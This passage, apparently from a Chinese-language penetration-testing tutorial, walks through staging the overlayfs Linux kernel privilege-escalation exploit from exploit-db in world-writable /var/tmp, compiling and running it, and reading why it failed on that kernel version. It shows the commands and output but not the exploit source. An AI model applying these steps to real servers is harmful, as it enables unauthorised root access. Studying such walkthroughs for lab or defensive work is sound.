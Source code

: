 可以看到有对应的漏洞的存在，其中一个点进去之后可以看到有exp的脚本。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210827084928.png)

可以看到脚本开头是注释，介绍了该exp的使用方法，下面是C语言的代码。我们将完整代码复制到目标服务器上，或保存到本地再上传到目标服务器，按照使用方法去执行。

查找存放目录

在Linux下，`/var/tmp`与`tmp`目录是黑客最喜欢的目录，因为这里的目录权限比较高，任意用户都可以读写和执行。

```
hacker@webper-virtual-machine:/var$ ls -l
总用量 48
drwxr-xr-x  2 root root     4096  8月 26 08:00 backups
drwxr-xr-x 19 root root     4096  4月  5  2019 cache
drwxrwsrwt  2 root whoopsie 4096  8月 25 08:25 crash
drwxr-xr-x 71 root root     4096  8月 22 16:43 lib
drwxrwsr-x  2 root staff    4096  4月 11  2014 local
lrwxrwxrwx  1 root root        9  4月  5  2019 lock -> /run/lock
drwxrwxr-x 16 root syslog   4096  8月 27 07:47 log
drwxrwsr-x  2 root mail     4096  8月  5  2015 mail
drwxrwsrwt  2 root whoopsie 4096  8月  5  2015 metrics
drwxr-xr-x  2 root root     4096  8月  5  2015 opt
lrwxrwxrwx  1 root root        4  4月  5  2019 run -> /run
drwxr-xr-x  9 root root     4096  8月  5  2015 spool
drwxrwxrwt  2 root root     4096  8月 27 08:59 tmp
drwxr-xr-x  3 root root     4096  4月  9  2019 www
```

那我们就可以将exp文件保存到该目录下并授予执行权限。

```
hacker@webper-virtual-machine:/var/tmp$ chmod +x ofs.c
hacker@webper-virtual-machine:/var/tmp$ ls -l
总用量 12
-rwxrwxr-x 1 hacker hacker 4982  8月 27 08:59 ofs.c
-rw------- 1 root   root    799  4月  7  2019 phpmyadmin.phpmyadmin.2019-04-07-10.18.mysql.ct3QHG
```

然后我们可以按照文本开头的方法开始执行提权操作。

```
hacker@webper-virtual-machine:/var/tmp$ gcc ofs.c -o ofs
hacker@webper-virtual-machine:/var/tmp$ id
uid=1001(hacker) gid=1001(hacker) 组=1001(hacker)
hacker@webper-virtual-machine:/var/tmp$ chmod +x ofs
hacker@webper-virtual-machine:/var/tmp$ ./ofs
spawning threads
mount #1
mount #2
child threads done
exploit failed
```

这里执行失败了，去查看exploit-db的漏洞说明，这里明显表示受影响的内核版本是大于3.13.0和小于3.19之间的。

```
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
```

